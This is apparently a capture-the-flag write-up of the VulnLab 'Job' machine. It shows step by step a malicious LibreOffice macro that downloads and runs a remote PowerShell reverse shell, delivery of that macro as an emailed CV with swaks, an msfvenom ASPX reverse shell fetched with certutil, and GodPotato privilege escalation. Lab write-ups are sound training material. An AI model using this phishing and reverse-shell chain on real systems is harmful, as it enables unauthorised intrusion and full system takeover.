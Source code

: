```yaml
---
layout: post
title: "Job"
categories: [VulnLab]
date: 2025-04-16
tags: [SMTP, Malicious_Office, God_Potato]
image: assets/img/job_slide.png
---
```



Let's start with an Nmap scan.

```bash
➜  Job nmap -p- --min-rate 1000 10.10.109.254
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 13:13 +04
Nmap scan report for job.local (10.10.109.254)
Host is up (0.089s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
25/tcp   open  smtp
80/tcp   open  http
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 130.29 seconds
```

Since port 80 is open, let's visit the website (don't forget to add `job.local` to the hosts file).

<figure><img src="../assets/img/website_photo_1.png" alt=""><figcaption></figcaption></figure>

As seen on the website, they mention that they are looking for a developer and have provided an email address.

For now, the only idea that comes to mind is to create a malicious file and send it to the provided email address in hopes of achieving RCE.\
&#xNAN;_**Note:**_ If you haven’t seen this type of vulnerability before, it's quite difficult to come up with this approach on your own at first.

To support this step, I’m sharing a write-up by 0xdf that can serve as a valuable reference:\
[https://0xdf.gitlab.io/2020/02/01/htb-re.html](https://0xdf.gitlab.io/2020/02/01/htb-re.html)\
This resource is especially helpful at this stage.

As shown in the screenshot, we create a new text document (`.odt`) in LibreOffice and navigate to:\
**Tools > Macros > Organize Macros > Basic**.

<figure><img src="../assets/img/create_macros_2.png" alt=""><figcaption></figcaption></figure>

Next, we click on **Untitled**, select **New**, and give our macro a name.

<figure><img src="../assets/img/create_macros_3.png" alt=""><figcaption></figcaption></figure>

After that, we will inject our malicious code as a macro.\
Here, we’ll use `reverse.ps1` from Nishang as our reverse shell, which will allow us to gain a reverse shell connection

<figure><img src="../assets/img/create_macros_4.png" alt=""><figcaption></figcaption></figure>

```
REM  *****  BASIC  *****  
  
Sub Main  
  
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.0.210/shell.ps1')""")  
  
End Sub
```

To ensure the macro runs when the file is opened, we save it and then go to:\
**Tools > Customize**, and under the **Open Document** section, we select our custom macro.

<figure><img src="../assets/img/customize_5.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../assets/img/select_macro_6.png" alt=""><figcaption></figcaption></figure>

After selecting our macro, we’ll save the file and close it.\
Now, we can edit the file we referred to as `reverse.ps1`.

```bash
➜  Job cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 reverse.ps1
➜  Job echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.8.6.29 -Port 443" >> reverse.ps1
```

Now, let's set up a web server using Python and send the email.

```bash
➜  Job python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's also start listening on port 443.

```bash
➜  Job rlwrap nc -lvnp 443
listening on [any] 443 ...
```

Send the email using Swaks.

```bash
➜  Job swaks --from tofiq@vulnlab.com --to career@job.local --header "CV" --body "CV" --attach @mail.odt --server job.local
=== Trying job.local:25...
=== Connected to job.local.
<-  220 JOB ESMTP
 -> EHLO kali
<-  250-JOB
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<tofiq@vulnlab.com>
<-  250 OK
 -> RCPT TO:<career@job.local>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Tue, 15 Apr 2025 13:51:08 +0400
 -> To: career@job.local
 -> From: tofiq@vulnlab.com
 -> Subject: test Tue, 15 Apr 2025 13:51:08 +0400
 -> Message-Id: <20250415135108.037121@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_37121"
 -> CV
 -> 
 -> ------=_MIME_BOUNDARY_000_37121
 -> Content-Type: text/plain
 -> 
 -> CV
 -> ------=_MIME_BOUNDARY_000_37121
 -> Content-Type: application/octet-stream; name="mail.odt"
 -> Content-Description: mail.odt
 -> Content-Disposition: attachment; filename="mail.odt"
 -> Content-Transfer-Encoding: BASE64
 <SNIP>
 -> 
 -> ------=_MIME_BOUNDARY_000_37121--
 -> 
 -> 
 -> .
<-  250 Queued (1.218 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

After waiting a bit, we receive the reverse shell.

```bash
➜  Job rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.6.29] from (UNKNOWN) [10.10.109.254] 53412
Windows PowerShell running as user jack.black on JOB
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\LibreOffice\program>
```

We obtained our first flag. After exploring a bit further, we notice that we have write permissions in the directory where the web server’s files are located.

```powershell
PS C:\inetpub\wwwroot> echo "Hello VulnLab" > test.txt
```

<figure><img src="../assets/img/write_perm_7.png" alt=""><figcaption></figcaption></figure>

After this, we can use Metasploit to compromise the `DefaultAppPool` user.

```bash
➜  Job msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.6.29 LPORT=4444 -f aspx -o reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3393 bytes
Saved as: reverse.aspx
```

We transfer the file to the `inetpub/wwwroot` directory, start listening on port 4444, and then trigger the file. After that, we receive the reverse shell.

```bash
PS C:\inetpub\wwwroot> certutil -f -split -urlcache http://10.8.6.29/reverse.aspx reverse.aspx
****  Online  ****
  0000  ...
  0d41
CertUtil: -URLCache command completed successfully.
```

```bash
➜  Job rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.6.29] from (UNKNOWN) [10.10.109.254] 54657
Microsoft Windows [Version 10.0.20348.350]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

The next step is very simple and follows a well-known method.

```powershell
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Since `SeImpersonatePrivilege` is enabled, we can easily exploit it using **GodPotato**.\
I will just read the flag, but you can find more detailed information on the exploitation process at the following GitHub page:\
[https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

```bash
c:\Users\Public>.\god.exe -cmd "cmd /c type c:\users\administrator\desktop\root.txt"
.\god.exe -cmd "cmd /c type c:\users\administrator\desktop\root.txt"
[*] CombaseModule: 0x140714526179328
[*] DispatchTable: 0x140714528769912
[*] UseProtseqFunction: 0x140714528063344
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\81bb2936-6705-43bf-8d90-0191a019d742\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008002-08e8-ffff-7a29-9c596b6e174a
[*] DCOM obj OXID: 0x1b52faa4cc16b4a3
[*] DCOM obj OID: 0x4e2db48f7201ce41
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 968 Token:0x732  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 4396
VL{<REDACTED>}
```

\




